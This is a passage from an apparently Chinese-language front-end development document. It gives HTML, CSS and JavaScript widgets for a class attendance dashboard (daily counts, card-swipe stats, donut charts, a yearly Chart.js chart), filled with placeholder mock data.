            .statistics-container {
                padding: 5px;
                gap: 8px;
            }

            .time-card {
                padding: 6px 4px;
            }

            .count {
                font-size: 12px;
            }
        }
    </style>
</head>
<body>
<div class="iframe-content">
    <div class="container">
        <div class="header">
            <h1 class="class-title" id="classTitle">百香果班级</h1>
            <div class="total-count" id="totalCount">（共85人）</div>
        </div>

        <div class="statistics-container">
            <div class="time-card">
                <div class="count" id="yesterdayCount">3</div>
                <div class="time-label">昨天</div>
            </div>
            <div class="center-circle">
                <div class="center-count" id="todayCount">5</div>
                <div class="center-date" id="todayDate">今2025-08-05</div>
            </div>
            <div class="time-card">
                <div class="count" id="tomorrowCount">3</div>
                <div class="time-label">明天</div>
            </div>

            <div class="time-card">
                <div class="count" id="futureCount">3</div>
                <div class="time-label">未来</div>
            </div>
        </div>
    </div>
</div>

<script>
    // 模拟班级数据
    var classData = {
        ''百香果班级'': {
            total: 85,
            yesterday: 3,
            today: 5,
            tomorrow: 3,
            future: 3,
            date: ''2025-08-05''
        },
        ''苹果班级'': {
            total: 72,
            yesterday: 4,
            today: 8,
            tomorrow: 2,
            future: 5,
            date: ''2025-08-05''
        },
        ''橙子班级'': {
            total: 91,
            yesterday: 2,
            today: 6,
            tomorrow: 4,
            future: 2,
            date: ''2025-08-05''
        },
        ''葡萄班级'': {
            total: 68,
            yesterday: 5,
            today: 3,
            tomorrow: 3,
            future: 4,
            date: ''2025-08-05''
        },
        ''草莓班级'': {
            total: 79,
            yesterday: 3,
            today: 7,
            tomorrow: 5,
            future: 1,
            date: ''2025-08-05''
        }
    };

    var objdata = {
        currentClass: ''百香果班级''
    };

    // 初始化页面
    function init() {
        updateDisplay();
        bindEvents();
    }

    // 绑定事件
    function bindEvents() {
        var classSelector = document.getElementById(''classSelector'');
        var refreshBtn = document.getElementById(''refreshBtn'');

        if (classSelector) {
            classSelector.addEventListener(''change'', function() {
                objdata.currentClass = this.value;
                updateDisplay();
                animateUpdate();
            });
        }

        if (refreshBtn) {
            refreshBtn.addEventListener(''click'', function() {
                generateRandomData();
                updateDisplay();
                animateRefresh();
            });
        }
    }

    // 更新显示数据
    function updateDisplay() {
        var data = classData[objdata.currentClass];
        if (!data) return;

        var elements = {
            classTitle: document.getElementById(''classTitle''),
            totalCount: document.getElementById(''totalCount''),
            yesterdayCount: document.getElementById(''yesterdayCount''),
            todayCount: document.getElementById(''todayCount''),
            tomorrowCount: document.getElementById(''tomorrowCount''),
            tomorrowCount2: document.getElementById(''tomorrowCount2''),
            futureCount: document.getElementById(''futureCount''),
            todayDate: document.getElementById(''todayDate'')
        };

        if (elements.classTitle) elements.classTitle.textContent = objdata.currentClass;
        if (elements.totalCount) elements.totalCount.textContent = ''（共'' + data.total + ''人）'';
        if (elements.yesterdayCount) elements.yesterdayCount.textContent = data.yesterday;
        if (elements.todayCount) elements.todayCount.textContent = data.today;
        if (elements.tomorrowCount) elements.tomorrowCount.textContent = data.tomorrow;
        if (elements.tomorrowCount2) elements.tomorrowCount2.textContent = data.tomorrow;
        if (elements.futureCount) elements.futureCount.textContent = data.future;
        if (elements.todayDate) elements.todayDate.textContent = ''今'' + data.date;
    }

    // 生成随机数据
    function generateRandomData() {
        for (var className in classData) {
            if (classData.hasOwnProperty(className)) {
                classData[className] = {
                    total: Math.floor(Math.random() * 50) + 50,
                    yesterday: Math.floor(Math.random() * 8) + 1,
                    today: Math.floor(Math.random() * 10) + 1,
                    tomorrow: Math.floor(Math.random() * 8) + 1,
                    future: Math.floor(Math.random() * 8) + 1,
                    date: new Date().toISOString().split(''T'')[0]
                };
            }
        }
    }

    // 动画效果 - 更新
    function animateUpdate() {
        var cards = document.querySelectorAll(''.time-card, .center-circle'');
        cards.forEach(function(card, index) {
            card.style.animation = ''none'';
            setTimeout(function() {
                card.style.animation = ''slideIn 0.4s ease-out'';
                card.style.animationDelay = (index * 0.05) + ''s'';
            }, 20);
        });
    }

    // 动画效果 - 刷新
    function animateRefresh() {
        var container = document.querySelector(''.container'');
        if (container) {
            container.style.transform = ''scale(0.98)'';
            container.style.transition = ''transform 0.15s ease'';

            setTimeout(function() {
                container.style.transform = ''scale(1)'';
            }, 150);
        }
    }

    // 页面加载完成后初始化
    document.addEventListener(''DOMContentLoaded'', function() {
        init();

        // 定时刷新日期
        setInterval(function() {
            var now = new Date();
            var dateStr = now.getFullYear() + ''-'' +
                String(now.getMonth() + 1).padStart(2, ''0'') + ''-'' +
                String(now.getDate()).padStart(2, ''0'');

            if (classData[objdata.currentClass]) {
                classData[objdata.currentClass].date = dateStr;
                var todayDateEl = document.getElementById(''todayDate'');
                if (todayDateEl) {
                    todayDateEl.textContent = ''今'' + dateStr;
                }
            }
        }, 60000);
    });

    // 键盘快捷键支持
    document.addEventListener(''keydown'', function(e) {
        if (e.key === ''F5'' || (e.ctrlKey && e.key === ''r'')) {
            e.preventDefault();
            generateRandomData();
            updateDisplay();
            animateRefresh();
        }
    });

    // 防止iframe滚动到父页面
    document.addEventListener(''wheel'', function(e) {
        var container = document.querySelector(''.iframe-content'');
        if (container) {
            var atTop = container.scrollTop <= 0;
            var atBottom = container.scrollTop >= container.scrollHeight - container.clientHeight;

            if ((atTop && e.deltaY < 0) || (atBottom && e.deltaY > 0)) {
                e.preventDefault();
            }
        }
    });
</script>
</body>
</html>
```

### 3、重构刷卡

```html
<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>出勤卡片展示</title>
</head>
<body>

<!-- TODO 放的内容-->
<div class="date-display" id="dateDisplay">2025-08-05</div>

<div class="attendance-card">
    <div class="card-title" id="cardTitle">百鑫果班级（共85人）</div>
    
    <div class="stats-container">
        <div class="stat-item">
            <div class="stat-value" id="attendedCount">95人</div>
            <div class="stat-label">已到卡</div>
        </div>
        
        <div class="stat-item">
            <div class="stat-value" id="attendanceRate">95%</div>
            <div class="stat-label">届卡率</div>
        </div>
    </div>
</div>

<div class="footer-section">
    <div class="label">幼儿园卡</div>
    <button class="action-btn" id="actionBtn">进行中</button>
</div>

</body>

<script>
    document.addEventListener('DOMContentLoaded', function() {
        const params = window.NODE_PARAMS || {};
        console.log('接收到的参数:', params);
        
        // 根据参数加载数据
        if (params.selected_time && params.time_granularity) {
            loadDataByTime(params.selected_time, params.time_granularity);
        } else {
            // 没有参数时使用默认数据
            loadDefaultData();
        }
        
        // 绑定事件
        bindEvents();
    });

    /**
     * 根据时间加载数据
     * @param {string} selectedTime 选择的时间
     * @param {string} granularity 时间维度（日、月、年）
     */
    function loadDataByTime(selectedTime, granularity) {
        console.log(`加载数据: 时间=${selectedTime}, 维度=${granularity}`);
        
        // 更新日期显示
        updateDateDisplay(selectedTime, granularity);
        
        // TODO: 这里调用后端接口获取真实数据
        // 模拟从后端获取的数据
        const mockData = getMockDataByGranularity(granularity, selectedTime);
        
        // 更新卡片显示
        updateCard(mockData);
    }

    /**
     * 加载默认数据
     */
    function loadDefaultData() {
        console.log('使用默认数据');
        const today = new Date();
        const dateStr = formatDate(today, 'yyyy-MM-dd');
        
        document.getElementById('dateDisplay').textContent = dateStr;
        
        const defaultData = {
            className: '百香果班级',
            totalPeople: 85,
            attendedCount: 95,
            attendanceRate: 95,
            status: '进行中'
        };
        
        updateCard(defaultData);
    }

    /**
     * 根据时间粒度获取模拟数据
     */
    function getMockDataByGranularity(granularity, selectedTime) {
        // TODO: 实际应该从后端接口获取数据
        return {
            className: '百鑫果班级',
            totalPeople: 85,
            attendedCount: Math.floor(Math.random() * 10) + 80,
            attendanceRate: Math.floor(Math.random() * 10) + 85,
            status: '进行中'
        };
    }

    /**
     * 更新日期显示
     */
    function updateDateDisplay(selectedTime, granularity) {
        const dateDisplay = document.getElementById('dateDisplay');
        
        if (granularity === '年') {
            const year = selectedTime.split('-')[0];
            dateDisplay.textContent = year;
        } else if (granularity === '月') {
            const parts = selectedTime.split('-');
            dateDisplay.textContent = `${parts[0]}-${parts[1]}`;
        } else {
            // 日期格式保持不变
            dateDisplay.textContent = selectedTime;
        }
    }

    /**
     * 更新卡片数据
     */
    function updateCard(data) {
        // 更新标题
        document.getElementById('cardTitle').textContent = 
            `${data.className}（共${data.totalPeople}人）`;
        
        // 更新已到卡人数
        document.getElementById('attendedCount').textContent = 
            `${data.attendedCount}人`;
        
        // 更新到卡率
        document.getElementById('attendanceRate').textContent = 
            `${data.attendanceRate}%`;
        
        // 更新按钮状态
        const actionBtn = document.getElementById('actionBtn');
        actionBtn.textContent = data.status;
        
        // 根据状态改变按钮样式
        if (data.status === '已完成') {
            actionBtn.classList.add('completed');
            actionBtn.classList.remove('in-progress');
        } else {
            actionBtn.classList.add('in-progress');
            actionBtn.classList.remove('completed');
        }
    }

    /**
     * 绑定事件
     */
    function bindEvents() {
        // 按钮点击事件
        document.getElementById('actionBtn').addEventListener('click', function() {
            const currentText = this.textContent;
            console.log('点击按钮:', currentText);
            
            // TODO: 实现具体的业务逻辑
            if (currentText === '进行中') {
                alert('考勤正在进行中');
            } else if (currentText === '已完成') {
                alert('考勤已完成');
            }
        });
    }

    /**
     * 格式化日期
     */
    function formatDate(date, format) {
        const year = date.getFullYear();
        const month = String(date.getMonth() + 1).padStart(2, '0');
        const day = String(date.getDate()).padStart(2, '0');

        return format
            .replace('yyyy', year)
            .replace('MM', month)
            .replace('dd', day);
    }
</script>

<style>
    * {
        margin: 0;
        padding: 0;
        box-sizing: border-box;
    }

    body {
        width: 100vw;
        height: 100vh;
        font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Arial, sans-serif;
        background: #fff;
        padding: 3.5vw;
        display: flex;
        flex-direction: column;
        overflow: hidden;
    }

    /* 内容区域样式 */
    .date-display {
        font-size: 3vw;
        color: #999;
        margin-bottom: 2vh;
        font-weight: 400;
    }

    .attendance-card {
        background: #fff;
        border: 0.3vw solid #95de64;
        border-radius: 2vw;
        padding: 3vw 3.5vw;
        margin-bottom: 2vh;
    }

    .card-title {
        font-size: 3.2vw;
        color: #333;
        font-weight: 500;
        margin-bottom: 2vh;
    }

    .stats-container {
        display: flex;
        justify-content: space-between;
        align-items: center;
    }

    .stat-item {
        display: flex;
        flex-direction: column;
        align-items: center;
        flex: 1;
    }

    .stat-value {
        font-size: 4.5vw;
        color: #333;
        font-weight: 600;
        margin-bottom: 1vh;
    }

    .stat-label {
        font-size: 2.8vw;
        color: #666;
        font-weight: 400;
    }

    .footer-section {
        display: flex;
        justify-content: space-between;
        align-items: center;
        margin-top: auto;
    }

    .label {
        font-size: 3.2vw;
        color: #333;
        font-weight: 500;
    }

    .action-btn {
        background: #ff4d4f;
        color: #fff;
        border: none;
        border-radius: 1.5vw;
        padding: 1.2vh 4vw;
        font-size: 3vw;
        font-weight: 500;
        cursor: pointer;
        transition: all 0.3s;
    }

    .action-btn.in-progress {
        background: #ff4d4f;
    }

    .action-btn.completed {
        background: #52c41a;
    }

    .action-btn:hover {
        opacity: 0.85;
        transform: scale(0.98);
    }

    .action-btn:active {
        transform: scale(0.95);
    }

    /* 响应式调整 */
    @media (min-width: 768px) {
        .date-display {
            font-size: 1.5vw;
        }

        .card-title {
            font-size: 1.6vw;
        }

        .stat-value {
            font-size: 2.2vw;
        }

        .stat-label {
            font-size: 1.4vw;
        }

        .label {
            font-size: 1.6vw;
        }

        .action-btn {
            font-size: 1.5vw;
            padding: 1vh 3vw;
        }

        .attendance-card {
            border-width: 0.15vw;
            border-radius: 1vw;
            padding: 2vw;
        }

        .action-btn {
            border-radius: 0.8vw;
        }
    }
</style>
</html>
```

### 4、重构点名插件

```html
<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>环形图数据展示</title>
</head>
<body>

<!-- TODO 放的内容-->
<div class="header" id="headerTitle">百香果项目（54人）：应出勤人次数 150人次</div>

<div class="chart-container">
    <div class="donut-chart">
        <svg class="donut-svg" viewBox="0 0 120 120" preserveAspectRatio="xMidYMid meet">
            <!-- 背景圆环 -->
            <circle cx="60" cy="60" r="45" fill="none" stroke="#f0f0f0" stroke-width="18"/>
            
            <!-- 橙色部分 (实际出勤) -->
            <circle id="attendanceCircle" cx="60" cy="60" r="45" fill="none" stroke="#ffbb96" stroke-width="18"
                    stroke-dasharray="226 283" stroke-linecap="round"/>
            
            <!-- 绿色部分 (缺勤) -->
            <circle id="absenceCircle" cx="60" cy="60" r="45" fill="none" stroke="#95de64" stroke-width="18"
                    stroke-dasharray="127 382" stroke-dashoffset="-226" stroke-linecap="round"/>
        </svg>
        
        <div class="center-text" id="centerText">9月</div>
        
        <!-- 左侧标签 -->
        <div class="label label-left">
            <span class="label-desc">缺勤人次数</span>
            <span class="label-value" id="absenceValue">43/45%</span>
        </div>
        
        <!-- 右侧标签 -->
        <div class="label label-right">
            <span class="label-desc">实际出勤人次数</span>
            <span class="label-value" id="attendanceValue">98/80%</span>
        </div>
    </div>
</div>

<div class="footer">
    <a href="javascript:void(0);" class="link" id="reportLink">
        <svg class="link-icon" viewBox="0 0 1024 1024" fill="currentColor">
            <path d="M832 128H640v64h146.752L521.344 457.344l45.312 45.312L832 237.248V384h64V128z"/>
            <path d="M768 832H192V256h352v-64H160a32 32 0 0 0-32 32v640a32 32 0 0 0 32 32h640a32 32 0 0 0 32-32V480h-64v352z"/>
        </svg>
        月报表
    </a>
    <button class="btn" id="actionBtn">待提作</button>
</div>

</body>

<script>
    document.addEventListener('DOMContentLoaded', function() {
        const params = window.NODE_PARAMS || {};
        console.log('接收到的参数:', params);
        
        // 根据参数加载数据
        if (params.selected_time && params.time_granularity) {
            loadDataByTime(params.selected_time, params.time_granularity);
        } else {
            // 没有参数时使用默认数据
            loadDefaultData();
        }
        
        // 绑定事件
        bindEvents();
    });

    /**
     * 根据时间加载数据
     * @param {string} selectedTime 选择的时间
     * @param {string} granularity 时间维度（日、月、年）
     */
    function loadDataByTime(selectedTime, granularity) {
        console.log(`加载数据: 时间=${selectedTime}, 维度=${granularity}`);
        
        // TODO: 这里调用后端接口获取真实数据
        // 示例：根据时间粒度显示不同的中心文本
        updateCenterText(selectedTime, granularity);
        
        // 模拟从后端获取的数据
        const mockData = {
            projectName: '百香果项目',
            totalPeople: 54,
            expectedAttendance: 150,
            actualAttendance: 98,
            absenceCount: 43,
            attendanceRate: 0.80,
            absenceRate: 0.45
        };
        
        // 更新图表显示
        updateChart(mockData);
    }

    /**
     * 加载默认数据
     */
    function loadDefaultData() {
        console.log('使用默认数据');
        const defaultData = {
            projectName: '百香果项目',
            totalPeople: 54,
            expectedAttendance: 150,
            actualAttendance: 98,
            absenceCount: 43,
            attendanceRate: 0.80,
            absenceRate: 0.45
        };
        updateChart(defaultData);
    }

    /**
     * 更新中心文本
     */
    function updateCenterText(selectedTime, granularity) {
        const centerText = document.getElementById('centerText');
        
        if (granularity === '年') {
            // 提取年份，例如 "2025" -> "2025年"
            const year = selectedTime.split('-')[0];
            centerText.textContent = year + '年';
        } else if (granularity === '月') {
            // 提取月份，例如 "2025-10" -> "10月"
            const month = selectedTime.split('-')[1];
            centerText.textContent = parseInt(month) + '月';
        } else if (granularity === '日') {
            // 提取日期，例如 "2025-10-14" -> "10/14"
            const parts = selectedTime.split('-');
            centerText.textContent = `${parseInt(parts[1])}/${parts[2]}`;
        }
    }

    /**
     * 更新图表数据
     */
    function updateChart(data) {
        // 更新标题
        const header = document.getElementById('headerTitle');
        header.textContent = `${data.projectName}（${data.totalPeople}人）：应出勤人次数 ${data.expectedAttendance}人次`;
        
        // 更新数值显示
        const attendanceValue = document.getElementById('attendanceValue');
        const absenceValue = document.getElementById('absenceValue');
        
        attendanceValue.textContent = `${data.actualAttendance}/${Math.round(data.attendanceRate * 100)}%`;
        absenceValue.textContent = `${data.absenceCount}/${Math.round(data.absenceRate * 100)}%`;
        
        // 更新环形图
        updateDonutChart(data.attendanceRate, data.absenceRate);
    }

    /**
     * 更新环形图显示
     */
    function updateDonutChart(attendanceRate, absenceRate) {
        const circumference = 2 * Math.PI * 45; // 圆的周长
        
        // 计算实际出勤的弧长
        const attendanceLength = circumference * attendanceRate;
        const attendanceCircle = document.getElementById('attendanceCircle');
        attendanceCircle.setAttribute('stroke-dasharray', `${attendanceLength} ${circumference}`);
        
        // 计算缺勤的弧长
        const absenceLength = circumference * absenceRate;
        const absenceCircle = document.getElementById('absenceCircle');
        absenceCircle.setAttribute('stroke-dasharray', `${absenceLength} ${circumference}`);
        absenceCircle.setAttribute('stroke-dashoffset', `-${attendanceLength}`);
    }

    /**
     * 绑定事件
     */
    function bindEvents() {
        // 月报表链接点击事件
        document.getElementById('reportLink').addEventListener('click', function(e) {
            e.preventDefault();
            console.log('点击月报表');
            // TODO: 实现跳转到月报表的逻辑
            alert('查看月报表功能');
        });
        
        // 待提作按钮点击事件
        document.getElementById('actionBtn').addEventListener('click', function() {
            console.log('点击待提作按钮');
            // TODO: 实现待提作功能
            alert('待提作功能');
        });
    }
</script>

<style>
    * {
        margin: 0;
        padding: 0;
        box-sizing: border-box;
    }

    body {
        width: 100vw;
        height: 100vh;
        font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Arial, sans-serif;
        background: #fff;
        padding: 3.5vw;
        display: flex;
        flex-direction: column;
        overflow: hidden;
    }

    /* 内容区域样式 */
    .header {
        font-size: 3.4vw;
        color: #333;
        margin-bottom: 2.8vh;
        font-weight: 500;
        line-height: 1.3;
    }
    
    .chart-container {
        flex: 1;
        display: flex;
        align-items: center;
        justify-content: center;
        position: relative;
        min-height: 0;
    }
    
    .donut-chart {
        position: relative;
        width: 34vw;
        height: 34vw;
        max-width: 63vh;
        max-height: 63vh;
    }
    
    .donut-svg {
        transform: rotate(-90deg);
        width: 100%;
        height: 100%;
    }
    
    .center-text {
        position: absolute;
        top: 50%;
        left: 50%;
        transform: translate(-50%, -50%);
        text-align: center;
        font-size: 4vw;
        color: #666;
        font-weight: 500;
    }
    
    .label {
        position: absolute;
        font-size: 2.8vw;
        color: #333;
        display: flex;
        flex-direction: column;
        align-items: center;
        text-align: center;
        line-height: 1.4;
    }
    
    .label-value {
        font-weight: 600;
        color: #333;
        margin-top: 0.5vh;
        font-size: 3vw;
    }
    
    .label-desc {
        color: #666;
        white-space: nowrap;
    }
    
    .label-left {
        left: -13.7vw;
        top: 50%;
        transform: translateY(-50%);
    }
    
    .label-right {
        right: -14.8vw;
        top: 50%;
        transform: translateY(-50%);
    }
    
    .footer {
        display: flex;
        justify-content: space-between;
        align-items: center;
        margin-top: 2.8vh;
        padding-top: 2.2vh;
        border-top: 1px solid #f0f0f0;
    }
    
    .link {
        display: flex;
        align-items: center;
        font-size: 3.1vw;
        color: #1890ff;
        text-decoration: none;
        cursor: pointer;
    }
    
    .link:hover {
        color: #40a9ff;
    }
    
    .link-icon {
        width: 4vw;
        height: 4vw;
        margin-right: 1.2vw;
    }
    
    .btn {
        background: #7c5cef;
        color: white;
        border: none;
        padding: 1.4vh 4vw;
        border-radius: 1.2vw;
        font-size: 3.1vw;
        cursor: pointer;
        transition: background 0.3s;
        white-space: nowrap;
    }
    
    .btn:hover {
        background: #6a4dd4;
    }
    
    .btn:active {
        transform: scale(0.98);
    }
</style>
</html>
```

### 5、重构月报表

```html
<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>环形图数据展示</title>
</head>
<body>

<!-- TODO 放的内容-->
<div class="header" id="headerTitle">百香果项目（54人）：应出勤人次数 150人次</div>

<div class="chart-container">
    <div class="donut-chart">
        <svg class="donut-svg" viewBox="0 0 120 120" preserveAspectRatio="xMidYMid meet">
            <!-- 背景圆环 -->
            <circle cx="60" cy="60" r="45" fill="none" stroke="#f0f0f0" stroke-width="18"/>
            
            <!-- 橙色部分 (实际出勤) -->
            <circle id="attendanceCircle" cx="60" cy="60" r="45" fill="none" stroke="#ffbb96" stroke-width="18"
                    stroke-dasharray="226 283" stroke-linecap="round"/>
            
            <!-- 绿色部分 (缺勤) -->
            <circle id="absenceCircle" cx="60" cy="60" r="45" fill="none" stroke="#95de64" stroke-width="18"
                    stroke-dasharray="127 382" stroke-dashoffset="-226" stroke-linecap="round"/>
        </svg>
        
        <div class="center-text" id="centerText">9月</div>
        
        <!-- 左侧标签 -->
        <div class="label label-left">
            <span class="label-desc">缺勤人次数</span>
            <span class="label-value" id="absenceValue">43/45%</span>
        </div>
        
        <!-- 右侧标签 -->
        <div class="label label-right">
            <span class="label-desc">实际出勤人次数</span>
            <span class="label-value" id="attendanceValue">98/80%</span>
        </div>
    </div>
</div>

<div class="footer">
    <a href="javascript:void(0);" class="link" id="reportLink">
        <svg class="link-icon" viewBox="0 0 1024 1024" fill="currentColor">
            <path d="M832 128H640v64h146.752L521.344 457.344l45.312 45.312L832 237.248V384h64V128z"/>
            <path d="M768 832H192V256h352v-64H160a32 32 0 0 0-32 32v640a32 32 0 0 0 32 32h640a32 32 0 0 0 32-32V480h-64v352z"/>
        </svg>
        月报表
    </a>
    <button class="btn" id="actionBtn">待提作</button>
</div>

</body>

<script>
    document.addEventListener('DOMContentLoaded', function() {
        const params = window.NODE_PARAMS || {};
        console.log('接收到的参数:', params);
        
        // 根据参数加载数据
        if (params.selected_time && params.time_granularity) {
            loadDataByTime(params.selected_time, params.time_granularity);
        } else {
            // 没有参数时使用默认数据
            loadDefaultData();
        }
        
        // 绑定事件
        bindEvents();
    });

    /**
     * 根据时间加载数据
     * @param {string} selectedTime 选择的时间
     * @param {string} granularity 时间维度（日、月、年）
     */
    function loadDataByTime(selectedTime, granularity) {
        console.log(`加载数据: 时间=${selectedTime}, 维度=${granularity}`);
        
        // TODO: 这里调用后端接口获取真实数据
        // 示例：根据时间粒度显示不同的中心文本
        updateCenterText(selectedTime, granularity);
        
        // 模拟从后端获取的数据
        const mockData = {
            projectName: '百香果项目',
            totalPeople: 54,
            expectedAttendance: 150,
            actualAttendance: 98,
            absenceCount: 43,
            attendanceRate: 0.80,
            absenceRate: 0.45
        };
        
        // 更新图表显示
        updateChart(mockData);
    }

    /**
     * 加载默认数据
     */
    function loadDefaultData() {
        console.log('使用默认数据');
        const defaultData = {
            projectName: '百香果项目',
            totalPeople: 54,
            expectedAttendance: 150,
            actualAttendance: 98,
            absenceCount: 43,
            attendanceRate: 0.80,
            absenceRate: 0.45
        };
        updateChart(defaultData);
    }

    /**
     * 更新中心文本
     */
    function updateCenterText(selectedTime, granularity) {
        const centerText = document.getElementById('centerText');
        
        if (granularity === '年') {
            // 提取年份，例如 "2025" -> "2025年"
            const year = selectedTime.split('-')[0];
            centerText.textContent = year + '年';
        } else if (granularity === '月') {
            // 提取月份，例如 "2025-10" -> "10月"
            const month = selectedTime.split('-')[1];
            centerText.textContent = parseInt(month) + '月';
        } else if (granularity === '日') {
            // 提取日期，例如 "2025-10-14" -> "10/14"
            const parts = selectedTime.split('-');
            centerText.textContent = `${parseInt(parts[1])}/${parts[2]}`;
        }
    }

    /**
     * 更新图表数据
     */
    function updateChart(data) {
        // 更新标题
        const header = document.getElementById('headerTitle');
        header.textContent = `${data.projectName}（${data.totalPeople}人）：应出勤人次数 ${data.expectedAttendance}人次`;
        
        // 更新数值显示
        const attendanceValue = document.getElementById('attendanceValue');
        const absenceValue = document.getElementById('absenceValue');
        
        attendanceValue.textContent = `${data.actualAttendance}/${Math.round(data.attendanceRate * 100)}%`;
        absenceValue.textContent = `${data.absenceCount}/${Math.round(data.absenceRate * 100)}%`;
        
        // 更新环形图
        updateDonutChart(data.attendanceRate, data.absenceRate);
    }

    /**
     * 更新环形图显示
     */
    function updateDonutChart(attendanceRate, absenceRate) {
        const circumference = 2 * Math.PI * 45; // 圆的周长
        
        // 计算实际出勤的弧长
        const attendanceLength = circumference * attendanceRate;
        const attendanceCircle = document.getElementById('attendanceCircle');
        attendanceCircle.setAttribute('stroke-dasharray', `${attendanceLength} ${circumference}`);
        
        // 计算缺勤的弧长
        const absenceLength = circumference * absenceRate;
        const absenceCircle = document.getElementById('absenceCircle');
        absenceCircle.setAttribute('stroke-dasharray', `${absenceLength} ${circumference}`);
        absenceCircle.setAttribute('stroke-dashoffset', `-${attendanceLength}`);
    }

    /**
     * 绑定事件
     */
    function bindEvents() {
        // 月报表链接点击事件
        document.getElementById('reportLink').addEventListener('click', function(e) {
            e.preventDefault();
            console.log('点击月报表');
            // TODO: 实现跳转到月报表的逻辑
            alert('查看月报表功能');
        });
        
        // 待提作按钮点击事件
        document.getElementById('actionBtn').addEventListener('click', function() {
            console.log('点击待提作按钮');
            // TODO: 实现待提作功能
            alert('待提作功能');
        });
    }
</script>

<style>
    * {
        margin: 0;
        padding: 0;
        box-sizing: border-box;
    }

    body {
        width: 100vw;
        height: 100vh;
        font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Arial, sans-serif;
        background: #fff;
        padding: 3.5vw;
        display: flex;
        flex-direction: column;
        overflow: hidden;
    }

    /* 内容区域样式 */
    .header {
        font-size: 3.4vw;
        color: #333;
        margin-bottom: 2.8vh;
        font-weight: 500;
        line-height: 1.3;
    }
    
    .chart-container {
        flex: 1;
        display: flex;
        align-items: center;
        justify-content: center;
        position: relative;
        min-height: 0;
    }
    
    .donut-chart {
        position: relative;
        width: 34vw;
        height: 34vw;
        max-width: 63vh;
        max-height: 63vh;
    }
    
    .donut-svg {
        transform: rotate(-90deg);
        width: 100%;
        height: 100%;
    }
    
    .center-text {
        position: absolute;
        top: 50%;
        left: 50%;
        transform: translate(-50%, -50%);
        text-align: center;
        font-size: 4vw;
        color: #666;
        font-weight: 500;
    }
    
    .label {
        position: absolute;
        font-size: 2.8vw;
        color: #333;
        display: flex;
        flex-direction: column;
        align-items: center;
        text-align: center;
        line-height: 1.4;
    }
    
    .label-value {
        font-weight: 600;
        color: #333;
        margin-top: 0.5vh;
        font-size: 3vw;
    }
    
    .label-desc {
        color: #666;
        white-space: nowrap;
    }
    
    .label-left {
        left: -13.7vw;
        top: 50%;
        transform: translateY(-50%);
    }
    
    .label-right {
        right: -14.8vw;
        top: 50%;
        transform: translateY(-50%);
    }
    
    .footer {
        display: flex;
        justify-content: space-between;
        align-items: center;
        margin-top: 2.8vh;
        padding-top: 2.2vh;
        border-top: 1px solid #f0f0f0;
    }
    
    .link {
        display: flex;
        align-items: center;
        font-size: 3.1vw;
        color: #1890ff;
        text-decoration: none;
        cursor: pointer;
    }
    
    .link:hover {
        color: #40a9ff;
    }
    
    .link-icon {
        width: 4vw;
        height: 4vw;
        margin-right: 1.2vw;
    }
    
    .btn {
        background: #7c5cef;
        color: white;
        border: none;
        padding: 1.4vh 4vw;
        border-radius: 1.2vw;
        font-size: 3.1vw;
        cursor: pointer;
        transition: background 0.3s;
        white-space: nowrap;
    }
    
    .btn:hover {
        background: #6a4dd4;
    }
    
    .btn:active {
        transform: scale(0.98);
    }
</style>
</html>
```

### 6、重构年报表

```html
<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>出勤统计</title>
</head>
<body>

<!-- TODO 放的内容-->
<div class="chart-wrapper">
    <div class="header">
        <div class="year" id="yearTitle">2025年</div>
        <div class="subtitle" id="subtitleText">百香果班级（85人，应出勤人次数1823人次）</div>
    </div>

    <div class="chart-container">
        <canvas id="attendanceChart"></canvas>
    </div>
</div>

</body>

<script src="https://cdnjs.cloudflare.com/ajax/libs/Chart.js/3.9.1/chart.min.js"></script>
<script>
    let chart = null;

    document.addEventListener('DOMContentLoaded', function() {
        const params = window.NODE_PARAMS || {};
        console.log('接收到的参数:', params);
        
        // 根据参数加载数据
        if (params.selected_time && params.time_granularity) {
            loadDataByTime(params.selected_time, params.time_granularity);
        } else {
            // 没有参数时使用默认数据
            loadDefaultData();
        }
    });

    /**
     * 根据时间加载数据
     * @param {string} selectedTime 选择的时间
     * @param {string} granularity 时间维度（日、月、年）
     */
    function loadDataByTime(selectedTime, granularity) {
        console.log(`加载数据: 时间=${selectedTime}, 维度=${granularity}`);
        
        // 更新标题显示
        updateTitle(selectedTime, granularity);
        
        // TODO: 这里调用后端接口获取真实数据
        // 根据时间粒度获取不同的数据
        const mockData = getMockDataByGranularity(granularity, selectedTime);
        
        // 渲染图表
        renderChart(mockData);
    }

    /**
     * 加载默认数据
     */
    function loadDefaultData() {
        console.log('使用默认数据');
        const defaultData = {
            className: '百香果班级',
            totalPeople: 85,
            expectedAttendance: 1823,
            labels: ['六月', '七月', '十一月', '一月', '二月', '三月', '四月', '五月', '六月', '七月', '八月'],
            attendanceRate: [100, 100, 100, 100, 100, 100, 100, 100, 100, 100, 100],
            actualData: [22, 45, 12, 48, 18, 42, 25, 85, 50, 22, 3],
            sickLeave: [10, 4, 10, 5, 8, 12, 25, 0, 26, 12, 3],
            casualLeave: [10, 0, 0, 0, 0, 8, 0, 22, 0, 0, 0],
            otherLeave: [0, 0, 0, 0, 0, 0, 0, 0, 0, 20, 0]
        };
        
        updateSubtitle(defaultData);
        renderChart(defaultData);
    }

    /**
     * 根据时间粒度获取模拟数据
     */
    function getMockDataByGranularity(granularity, selectedTime) {
        // TODO: 实际应该从后端接口获取数据
        if (granularity === '年') {
            // 年度数据：显示12个月
            return {
                className: '百香果班级',
                totalPeople: 85,
                expectedAttendance: 1823,
                labels: ['1月', '2月', '3月', '4月', '5月', '6月', '7月', '8月', '9月', '10月', '11月', '12月'],
                attendanceRate: [98, 97, 99, 100, 98, 99, 97, 98, 100, 99, 98, 97],
                actualData: [25, 30, 22, 18, 20, 35, 40, 28, 15, 32, 27, 30],
                sickLeave: [8, 12, 5, 3, 6, 10, 15, 8, 2, 11, 9, 12],
